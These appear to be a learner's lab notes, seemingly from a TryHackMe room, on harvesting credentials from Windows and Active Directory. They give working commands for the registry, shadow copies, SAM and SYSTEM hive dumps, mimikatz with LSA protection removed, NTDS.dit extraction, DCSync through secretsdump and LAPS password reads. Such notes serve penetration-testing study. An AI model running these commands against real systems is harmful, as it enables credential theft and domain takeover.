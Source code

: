 # Credential 

credentail can be found in many non secure location like 
Clear text file 
database file
Memory
PAssword Manage/ Vault
AD


# clear text file 

we can use some credential in command so we can check the command history of the user to check if there is some pass 
some credentail are stored in the reg we can use 
reg query HKLM /f password /t REG_SZ /s to seach password in the reg 

# database

like the mcaffe DB in the host that can allow us to retrieve info

# Memory Dump 

in the memory (RAM) Windows use a lot of 


# SAM 

the sam is a local DB of windows that contains all LOCAL user info this can be found in :

c:\Windows\System32\config\sam

and we need the system config file 

c:\Windows\System32\config\system

but this can be read or be copied . 
to have access to it we have some possibilities :

## HashDump : 
use in-memory code injection to get the SAM SB 

## SHADOW COPY 
we canc reate a shadow copy to have access to the SAM DB:
this will create a copy of the OS and with the second command we have acceess to the path where the copy is . 

wmic shadowcopy call create Volume='C:\'
vssadmin list shadows 

# registry 

we can use the reg to access to the file with : 
reg save HKLM\sam {PATH_TO_SAVE}\sam-reg

reg save HKLM\sam {PATH_TO_SAVE_FILE}\sam-reg

## decrypt 

to decript the DB we can use a secretsdump.py python3.9 secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL

# Memory Dump

## MimiKatz
mimikatz allow to get some credential in memory.
first we need to check if we have enought privilege with : 

privilege::debug

and so we can use 

sekurlsa::logonpasswords

if the command return an Handle on memory (0x00000005) Error we need to disable the LSA protection

start download the mimidrv driver a driver to disable the LSA Security :

write in mimikatz : !+


and then :

!processprotect /process:lsass.exe /remove

# Cred manager 

the cred manage is a software to store password :
to list all web password we can use : 

VaultCmd /listproperties:"Web Credentials"

the password is not shown but a powershell script can extrasct them 

sekurlsa::credman can crack the cred manager of windows .


# NTDS : 

## LOCAL
we can dump ntds login with local file: 
we need the following files :

C:\Windows\NTDS\ntds.dit
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SECURITY

or in a powerhell

powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"


and we can crack the hash avec:
```powershell
secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
```

## REMOTE :

to crack remote NTDS we can use a DC Sync attack. 
the goal is to duplicate DC Sync 

there is 2 tools to do it :
```powershell
secretsdump.py -just-dc THM.red/<AD_Admin_User>@10.10.142.43 
```
or minikatz: 


# LAPS 

Group Policy Preferences allow to change the Admin account password . 
Xml contains a password encrypted but the key has been leaked.

a new method was been created Local Administrator Password Solution. this solution have 2 object  ms-mcs-AdmPwd (clear-text password of the local administrator) and ms-mcs-AdmPwdExpirationTime(expiration time to reset the password)

to check if LAPS is activated we can use :

dir "C:\Program Files\LAPS\CSE" -> if this dir contains AdmPwd.dll.

we can get functions with: 
```powershell
Get-Command *AdmPwd*
Find-AdmPwdExtendedRights -Identity *
```
we will find the correct group or person have access to this password . and with the good user we can use 
```powershell
Get-AdmPwdPassword -ComputerName creds-harvestin
```

# Kerberoasting

allow obtain AD tickets lki TGT and TGS 

it's a python tools 
